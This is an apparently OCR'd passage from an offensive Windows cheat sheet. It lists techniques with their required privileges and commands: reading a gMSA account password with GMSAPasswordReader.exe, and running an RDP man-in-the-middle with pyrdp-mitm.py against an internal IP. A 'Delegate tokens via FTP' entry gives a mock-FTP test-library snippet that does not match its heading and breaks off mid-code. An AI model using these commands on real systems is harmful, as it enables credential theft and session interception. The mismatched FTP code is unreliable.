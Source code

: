 Domain: No

Local Admin: Yes

OS: Windows

Type: Enumeration & Hunt

Methods:

1\.

GMSAPasswordReader.exe \--accountname SVC_SERVICE_ACCOUNT

<a name="delegate-tokens-via-rdp"></a>
# Delegate tokens via RDP

Domain: No

Local Admin: Yes

OS: Windows/Linux

Type: Delegate tokens

Methods:

1\.

./fake_rdp.py

Or

pyrdp-mitm.py 192.168.1.10 -k private_key.pem -c certificate.pem

<a name="delegate-tokens-via-ftp"></a>
# Delegate tokens via FTP

Domain: No

Local Admin: Yes

OS: Windows/Linux

Type: Delegate tokens

Methods:

1\.

FakeFtpServer fakeFtpServer = new FakeFtpServer();

fakeFtpServer.addUserAccount(new UserAccount(\"user\", \"password\",
\"c:\\\\data\"));

FileSystem fileSystem = new WindowsFakeFileSystem();

fileSystem.add(new DirectoryEntry(\"c:\\\\data\"));

fileSystem.add(new FileEntry(\"c:\\\\data\\\\file1.txt\", \"abcdef
1234567890\"));

